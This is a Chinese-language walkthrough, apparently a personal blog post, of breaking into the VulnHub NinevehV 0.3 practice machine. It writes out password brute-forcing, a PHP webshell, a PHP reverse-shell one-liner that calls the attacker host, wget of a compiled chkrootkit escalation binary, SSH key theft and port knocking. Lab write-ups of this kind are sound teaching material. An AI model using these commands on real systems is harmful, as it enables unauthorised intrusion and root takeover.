vulnhub的NinevehV 0.3 靶机渗透记录
- NinevehV 0.3 靶机渗透
本次渗透目标为vulnhub的NinevehV 0.3靶机，靶机的ip是固定的192.168.0.150，所以装载这个靶机时，记得在vmware添加一个192.168.0网段的网卡，并将靶机和攻击机的网卡皆设置成这个网卡，具体原因，渗透测试的过程中会说明。好了开始渗透。
因为靶机的ip固定，所以本次就不用扫网段确认靶机ip了，我们直接使用nmap -sV -p- --open 192.168.0.150，收集靶机的开放端口信息

发现开启了80和443端口，及http和https网页服务，那就去这两个网页看看，发现除了一张图和几句话，什么有用的信息都没有。那么我们就需要爆破一下这两个网站的目录，看看有没有其他有用的页面。使用dirb工具扫描dirb http://192.168.0.150


http页面没有扫出什么有用的东西，先不管，看看https的那个db路径，实现是一个数据库的的后台管理的登录页面。

首先用searchsploit phpLiteAdmin看看这个系统有没有已发布的漏洞。

果然有漏洞，而且系统版本就是有漏洞的那个版本，那我们就去exploit database查看一下这个漏洞是什么。

大致意思就是这个数据库管理系统可以创建后缀名为php的数据库文件，然后将php代码写在数据库的表中，就可以访问这个php文件然后执行里面的代码。但是这都是要登录以后才可以执行的操作。
所以我们现在先爆破出登录密码，是时候检测一下你们字典强不强了233

爆破出来密码为password123，是弱密码。登录进去以后，创建一个1.php的数据库，在里面写入一句话木马。


木马上传好了，但是我们发现这个存储的位置根本就不在网站的根目录下面，我们无法访问，这个时候我们就需要一个文件包含漏洞，但https这个服务里面没有别的页面了。这个时候就可以看看http服务的页面了，之前我们扫出来的就只有一个phpinfo页面，没有别的有用信息，这次我们换个更大字典再扫一次，看看有没有收获。

这次有收获了，看来果然是默认的字典不够强。去访问一下

是一个登录页面，手工测试一下，发现是先判断用户名，再判断密码是否正确的，那么直接测出来用户名是admin，密码就要爆破了，再次考验你们字典好不好用的时候到了。。。

密码是1q2w3e4r5t也是一个弱密码。登录进去，点击notes，发现了可能是我们需要的的东西——一个存在文件包含漏洞的页面。

访问一下抓包访问一下var/tmp/1.php

但是我们这个文件是确实存在的，所以这个No Note is selected应该是人为输出的，经过测试，发现它会判断文件名是否包含ninevehNotes字段，没有就会输出那个错误信息。那我们把数据库的名字改成ninevehNotes1.php就行了。

看红圈的地方，原本的一句话木马已经被解析了，那我们就上菜刀去连一下，发现连不上，那就不用菜刀了，反正php语句可以执行，那我们尝试直接在网页执行cmd命令，将原来的一句话木马改成<?php exec($_GET["cmd"],$output); print_r($output); ?>然后试试能不能执行命令。

可以看到。命令正常执行了。再把cmd命令改成php -v,发现php版本为7.0.18，那么我们直接php反弹shell。使用php -r '$sock=fsockopen("192.168.0.128",1234);exec("/bin/sh -i <&3 >&3 2>&3");'注意啊，坑爹的地方要来了，后面完成渗透测试后我检测过了，这个靶机是连不到外网的，而且也ping不到其它网段的主机，所以如果你的攻击机和靶机不在同一网段的话，那就永远都收不到shell了。所以一开始才要求攻击机和靶机要同一网段！！！，记得抓包发命令的时候把命令URL编码一下，不然无法成功执行
在kali上面监听nc -lvnp 1234，然后就可以收到shell了，拿到shell后，使用python3 -c 'import pty; pty.spawn("/bin/bash")'将它变成交互式shell，更方便操作。

然后就是枯燥的信息搜集环节了，翻翻找找，在var/www/ssl/secure_notes文件夹的ninevh.png里面夹了私货。
获得了amrois的RSA私钥，可以无需密码登录他的ssh。但是我们之前扫描的时候22端口没有开启啊。再扫描看看nmap -p 22 192.168.0.150

果然没有正常开启，而是被防火墙过滤了，接着找找其他信息吧。然后在/var/mail文件夹下发现了一封amrois的邮件，内容如下

让amrois下次敲门，然后给了三个数字。这一看就知道是敲门机制：简单来说就是按照给定顺序访问给定的端口，防火墙就会开启原本设置的端口，逆序访问的话，就会关闭设置的端口。那我们就去敲一敲咯。

果然是敲门机制，门开了，我们就可以开开心心的用私钥去访问ssh服务了ssh amrois@192.168.0.150 -i key

成功登陆，拿到第一个flag，但是这个账户的权限也很低，之后怎么提权成root，完全没有思路，只能出最后绝招了——求助网上的大佬，看别人的wp。
大佬的思路：在根目录下面有一个可疑目录report，里面有一些日志文件。


根据大佬们的经验这个东西就是一个Chkrootkit的检查日志，可以尝试一下Chkrootkit提权

网上查一查，获得便宜代码一份。
1 |
|
将这个代码放到kali里面编译一下gcc a.c -o update，然后在kali运行python -m SimpleHTTPServer 8000，快速搭建一个http服务，提供一个文件浏览的Web服务。
然后在靶机的shell那里使用wget 192.168.0.128:8000/update下载一下

然后使用chmod 777 update获得执行update的权利，然后执行一下。

发现虽然我们还是amrois账户，但是update的owner已经变成root了，再执行一次。

成功提权成root，去root文件夹下拿flag去。